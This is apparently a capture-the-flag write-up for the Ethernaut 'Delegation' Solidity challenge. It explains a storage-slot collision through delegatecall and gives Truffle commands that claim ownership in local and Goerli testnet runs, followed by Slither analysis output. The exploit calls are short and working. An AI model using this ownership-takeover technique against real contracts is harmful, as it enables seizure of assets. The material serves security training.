# Delegation

[Delegation](https://ethernaut.openzeppelin.com/level/0xF781b45d11A37c51aabBa1197B61e6397aDf1f78)

_Claim ownership of the instance given._

`Delegation` is forwarding calls to `Delegate`. However the two are occupying the same storage slots. Hence on calling `Delegate::pwn()`, we overwrite
the owner of `Delegation`. 


<BR />

## Test
```BASH
> truffle develop
```

```JS
migrate
d1 = await Delegate.deployed()
d2 = await Delegation.deployed()
d3 = await Delegate.at(d2.address)

sender = accounts[5]
await d3.pwn({from: sender})
await d2.owner()
```

<BR />

## Live Attack
```BASH
truffle console --network goerli
```

```JS
d2 = await Delegation.at('0x115b0b955937EC808b9C4030868F15225A910B3A')
d3 = await Delegate.at('0x115b0b955937EC808b9C4030868F15225A910B3A')

// Make sure to get 0xCbB9660eA60B895443ef5001B968b6Ae4c0AaA18
sender = accounts[5]
await d3.pwn({from: sender})
await d2.owner()
```

<BR />


## Vulnerability Testing Tools


<BR />

### Slither

__Bug Detect__

```BASH
slither .  --truffle-ignore-compile  --exclude-informational  --exclude-optimization  --print variable-order
```

```
Delegate:
+----------------+---------+------+--------+
|      Name      |   Type  | Slot | Offset |
+----------------+---------+------+--------+
| Delegate.owner | address |  0   |   0    |
+----------------+---------+------+--------+

Delegation:
+---------------------+----------+------+--------+
|         Name        |   Type   | Slot | Offset |
+---------------------+----------+------+--------+
|   Delegation.owner  | address  |  0   |   0    |
| Delegation.delegate | Delegate |  1   |   0    |
+---------------------+----------+------+--------+

. analyzed (2 contracts)
```

```BASH
slither .  --truffle-ignore-compile  --exclude-informational  --exclude-optimization 
```

```
Delegation.fallback() (Delegation.sol#16-21) uses delegatecall to a input-controlled function id
        - (result) = address(delegate).delegatecall(msg.data) (Delegation.sol#17)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#controlled-delegatecall

Delegate.constructor(address)._owner (Delegate.sol#8) lacks a zero-check on :
                - owner = _owner (Delegate.sol#9)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#missing-zero-address-validation
. analyzed (2 contracts with 57 detectors), 2 result(s) found
```
